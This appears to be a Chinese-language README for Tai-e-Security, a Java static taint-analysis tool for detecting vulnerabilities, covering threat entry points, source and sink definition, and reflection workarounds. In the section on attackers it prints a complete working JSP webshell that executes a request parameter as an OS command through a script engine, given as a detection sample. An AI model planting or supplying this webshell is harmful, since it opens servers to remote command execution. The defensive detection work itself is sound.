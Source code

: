 # 介绍

Tai-e-Security 是基于Tai-e java 静态检测框架之上的一个漏洞检测工具，主要是解决一些工程适配的问题

# Threat 从哪些地方引入

![vul_intro_point.png](images/vul_intro_point.png))


* 容器引入

在java世界里容器的概念有多样，并且这些容器都是在业界以规范的形式存在，比如 servlet容器，以及它的实现tomcat，ejb 容器以及它的实现Jboss，还有java bean现实标准spring那一套

* component引入

这种组件本身不能构成一个runnable的程序，比如Log4j, fastjson 等，他们的漏洞利用需要被依赖到runnable的程序里

* 业务逻辑引入

这一部分是业务方基于上面的java基础设施编写自己的逻辑代码引入，比如各种controller, service 等


# 由谁引入

* 开发人员

上图中主要是说明由第三方或者自己方的开发人员不经意引入的threat

* 黑客


```java
<%@ page import="java.util.*,java.io.*,javax.script.*,java.net.*"%>
<%
//
// JSP_KIT
//
// 1.jsp = Command Execution (unix)
//
// by: huzhanchi
//
%>
<HTML><BODY>
<%
if (request.getParameter("cmd") != null) {
        String n = request.getParameter("cmd");
  try {
        n = java.net.URLDecoder.decode(n, "UTF-8");
			} catch (Exception e) {
					  e.printStackTrace();
			}
        String j = System.getProperty("java.version");
        ScriptEngineManager engineManager = new ScriptEngineManager();
        ScriptEngine engine = null;
        boolean b = j.indexOf("1.7") == 0 ? true : false;
        engine = engineManager.getEngineByName("js");
        String m = b ? "(function sum() {importPackage(java.util);importPackage(java.lang);Runtime.getRuntime().exec(a); return a; })(a)" :
          "load(\"nashorn:mozilla_compat.js\");(function sum() {importPackage(java.util);importPackage(java.lang);Runtime.getRuntime().exec(a); return a; })(a)";
        Bindings bindings = engine.createBindings();
        bindings.put("a", n);
        engine.setBindings(bindings, ScriptContext.GLOBAL_SCOPE);
        engine.eval(m, bindings);
  }
%>
</BODY></HTML>
```

黑客留下的后门比如webshell，或者其他java类持久后门，如果是后门就会有代码检测对抗，比如shell 利用反射，动态JavaScript引擎脚本混淆，所以面向黑客投递的jsp webshell检测效果相对要弱些

# 污点分析检测

污点分析检测主要的逻辑是基于已有的漏洞知识，即source和sink

## 遇到的困难

面对各种各样的codebase，我们要确定审计的是哪一部分，有两种审计方式：
1. 一个完整的业务系统，涵盖container，各种依赖的component，以及业务逻辑bean
2. 单独对某个无业务逻辑的component审计

其中第2个方式一个难点是有效的source 如何合理定义，在现实中是否广泛存在，比如log4j shell隐藏这么久，觉得很大一部分原因在于log.error 这个方法做为source在常规的审计思维里并不是最优先的，因为它不如Httprequest那么直接

## 单独对某个无业务逻辑的component审计

现在大多数开源项目都会有Unitest，如何识别合理有效的source和entry point 应该是一个有价值的方向

## 完整的业务系统的审计
这里会涉及到大量的component

* 我们要从上面提到的漏洞引入点哪里起步

目前比较难实现end to end 的检测，即流量从最直接入口tomcat internal filter chain，我们更多关心流量进入到controller或者servlet之后的部分，当然在之前也有不少漏洞比如fastjson和jackson的反序列化漏洞，以及shiro的cookie反序列化漏洞，
这些漏洞都是进入到controller之前被exploit的。这个项目也是从spring controller和servlet作为entry point

![dataflow.png](images%2Fdataflow.png)


* 定义entry point 和 source遇到的困难
  
最终的困难是分析的时候 如何应对反射，无论IOC还是annotation以及 proxy模式，java里很多是基于声明式，比如各种DSL，spring IOC xml 即是一种DSL，还有各种annotation也是一种DSL,这是一种声明我要什么，具体怎么做的逻辑是在代码另外一端，并且都会涉及到
反射的操作

解决方式有哪些？通用层面上我还没想清楚，期待框架比如Tai-e 有一套自己的反射model，并且这块我也没太深入了解 ，在Tai-e 框架资深提供通用解决反射之外的方式有哪些，下面是两种workaround方向:

## 自定义plugin (WIP)

基于Tai-e 提供的plugin机制，自定义自己所在的分析领域的特殊处理，增加自己的entry point和source


## 反射展开

反射展开，即将反射的魔法语法去掉，将他们展开成简单移动的方式, 这个repo里用到的一些方发就是比如 将所有spring 里的controller 都mock 到一个servlet里

![servlet.png](images/servlet.png)

这里mock流程都是通过gradle task来组织以及相互依赖

### Jsp 或 Servlet

对于JSP 首先要使用jasper将JSP转换为servlet

### spring web

将各种IOC注入功能都展开为过程化的风格

``` java
import javax.servlet.*;
import javax.servlet.http.*;
import java.io.IOException;

public class MyServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            String mockInput = request.getParameter("mock");
            #foreach($controller in $controllerList)
                #set($ctrIndex= $foreach.index)
                ${controller.className} ctr$ctrIndex = new ${controller.className}();
                    #foreach($method in $controller.mappingItems)
                    ctr${ctrIndex}.${method.name}(#foreach($arg in $method.args)
                #if($arg=="javax.servlet.http.HttpServletRequest") request #elseif($arg=="javax.servlet.http.HttpServletResponse") response #else mockInput #end #if($foreach.hasNext),#end#end );
            #end
            #end
            response.getWriter().println("Hello, this is my servlet!");
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }
}

```


# Todo list

- [x] jsp webshell
- [x] log4j shell
- [x] java-sec-code
- [x] servlet
- [x] spring controller
- [] unit test entry point
